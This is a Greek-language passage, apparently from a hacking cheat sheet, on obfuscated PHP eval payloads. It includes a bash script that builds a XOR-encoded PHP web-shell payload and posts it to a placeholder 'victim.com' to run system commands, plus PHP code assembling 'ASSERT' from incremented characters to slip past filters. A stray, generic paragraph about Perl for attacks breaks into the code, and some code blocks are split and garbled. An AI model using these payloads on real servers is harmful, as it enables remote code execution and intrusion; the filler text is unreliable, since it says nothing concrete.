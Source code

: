 ### XOR Shellcode (μέσα στο eval)
```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
### Παρόμοιο με την Perl

Η γλώσσα προγραμματισμού Perl είναι μια γλώσσα που χρησιμοποιείται ευρέως για την επεξεργασία κειμένου και την αυτοματοποίηση διαδικασιών. Στον κόσμο του hacking, η γλώσσα Perl μπορεί να χρησιμοποιηθεί για την ανάπτυξη εργαλείων και σεναρίων που βοηθούν στην εκτέλεση επιθέσεων και στην εκμετάλλευση ευπαθειών.

Οι παρακάτω τεχνικές και κόλπα μπορούν να χρησιμοποιηθούν στην Perl για την εκτέλεση επιθέσεων και την εξόρυξη πληροφοριών:

- **Εκτέλεση εντολών συστήματος**: Μπορείτε να χρησιμοποιήσετε την Perl για να εκτελέσετε εντολές συστήματος από το πρόγραμμά σας, προσφέροντας έτσι τη δυνατότητα να εκτελέσετε εντολές εντολικού περιβάλλοντος και να αποκτήσετε πρόσβαση σε λειτουργίες του συστήματος.

- **Επίθεση με χρήση κακόβουλου κώδικα**: Μπορείτε να χρησιμοποιήσετε την Perl για να αναπτύξετε κακόβουλο κώδικα που εκμεταλλεύεται ευπαθείς σημεία σε εφαρμογές και υπηρεσίες, προκαλώντας διάφορες μορφές επιθέσεων όπως απομακρυσμένη εκτέλεση κώδικα, ανεύρεση πληροφοριών και παραβίαση ασφαλείας.

- **Επίθεση με χρήση κακόβουλων σεναρίων**: Μπορείτε να χρησιμοποιήσετε την Perl για να αναπτύξετε κακόβουλους σεναρίους που εκτελούν επιθέσεις αυτοματοποιημένα, εκμεταλλευόμενοι ευπαθείς σημεία σε εφαρμογές και υπηρεσίες.

Η Perl παρέχει ισχυρές δυνατότητες για την ανάπτυξη και εκτέλεση επιθέσεων, καθιστώντας την μια χρήσιμη γλώσσα προγραμματισμού για τους επαγγελματίες του hacking.
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
```